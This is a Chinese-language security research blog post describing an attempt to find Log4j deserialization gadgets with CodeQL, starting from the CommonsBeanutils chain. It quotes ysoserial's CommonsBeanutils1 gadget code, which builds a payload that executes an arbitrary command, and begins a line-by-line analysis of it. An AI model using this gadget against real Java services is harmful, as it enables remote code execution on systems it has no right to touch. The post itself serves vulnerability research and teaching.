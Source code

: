 ## 记一次Log4j失败的Gadget挖掘记录



### 前言

&emsp;&emsp; 最开始我在《CodeQL与Shiro550的碰撞》的文章中提出了基于p牛写的依赖shiro1.2.4原生依赖CommonsBeanutils的漏洞gadget挖掘出了更多版本的漏洞gadget。之后我在使用CodeQL研究JNDI的漏洞触发类的挖掘办法，某天晚上玩着手机就突然想到如果我将这个方法用到挖掘漏洞gadget上呢？会有什么效果呢？虽然是一次失败的经历，但让笔者我对挖掘漏洞Gadget有了进一步深刻的理解。



----

### CommonsBeanutils

&emsp;&emsp; 本文尝试都是基于CommonsBeanutils的gadget的基础之上去挖掘新的gadget（对这个gadget非常熟悉的原因。）

首先对CommonsBeanutils1的gadget的进行分析，主要找出那些是可以变动的，那些是不变的点。这段代码是ysoserial中的CommonsBeanutils一个gadget。

```java
public Object getObject(final String command) throws Exception {
		final Object templates = Gadgets.createTemplatesImpl(command);
		final BeanComparator comparator = new BeanComparator("lowestSetBit");
		final PriorityQueue<Object> queue = new PriorityQueue<Object>(2, comparator);
		queue.add(new BigInteger("1"));
		queue.add(new BigInteger("1"));
	    Reflections.setFieldValue(comparator, "property", "outputProperties");
		final Object[] queueArray = (Object[]) Reflections.getFieldValue(queue, "queue");
		queueArray[0] = templates;
		queueArray[1] = templates;
		return queue;
	}
```



----



#### 逐行代码分析

这行代码是生成Templates命令的

```java
final Object templates = Gadgets.createTemplatesImpl(command);
```

BeanComparator是CommonsBeanutils1的chain的漏洞触发点，也可以是直接**new BeanComparator();** 。P牛提出的基于jdk内置的CommonsBeanutils的gadget chain写法是 **new BeanComparator(null, String.CASE_INSENSITIVE_ORDER);** ，BeanComparator是支持传入Comparator，如果不写就默认调用commons collection中的**ComparableComparator**。这里comparator在整个的gadget chain中是没有任何的调用，所以才能被随意的替换成其他的comparator。

```java
final BeanComparator comparator = new BeanComparator("lowestSetBit");
```

![image-20211102170436950](https://gitee.com/samny/images/raw/master/summersec//44u04er44ec/44u04er44ec.png)
